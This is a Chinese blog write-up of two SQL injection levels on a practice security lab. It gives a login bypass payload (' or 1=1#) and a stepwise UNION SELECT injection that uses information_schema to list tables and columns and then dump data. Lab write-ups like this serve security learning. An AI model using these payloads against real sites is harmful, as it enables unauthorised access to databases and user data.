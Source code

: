 ```yaml
---
layout: post
title: 网络安全实验室--注入关writeup
tag: codes
---
```


<h2>注入关</h2>

<h6>第一关</h6>

简单的登陆注入绕过。
通过某些敏感字符的测试，如 ' , "...发现只有在用户名栏中输入才会出现mysql的错误。
于是构造：' or 1=1#

<img src="/images/writeup_sql_1.png">

Get Key!

<h6>第二关</h6>

在id里面输入'，返回错误，加上#做注释，同样是错，那么参数应该是intiger，不是string。

先用union select来猜存在几个列。

<code>http://lab1.xseclab.com/sqli3_6590b07a0a39c8c27932b92b0e151456/index.php?id=1%20union%20select%201,2,3</code>

试到3的时候返回正确结果。接下来用mysql的information_schema.tables来获取表名，同样的information_schema.columns获取列名。

<code>http://lab1.xseclab.com/sqli3_6590b07a0a39c8c27932b92b0e151456/index.php?id=1%20union%20select%201,table_name,3%20from%20information_schema.tables</code>
<code>http://lab1.xseclab.com/sqli3_6590b07a0a39c8c27932b92b0e151456/index.php?id=1%20union%20select%201,column_name,3%20from%20information_schema.columns</code>

从中确定表名是:sae_user_sqli3,需要的列名：content，title。

最后：

<code>
http://lab1.xseclab.com/sqli3_6590b07a0a39c8c27932b92b0e151456/index.php?id=1%20union%20select%201,title,content%20from%20sae_user_sqli3
</code>

<img src="/images/writeup_sql_2.png">

Get Key!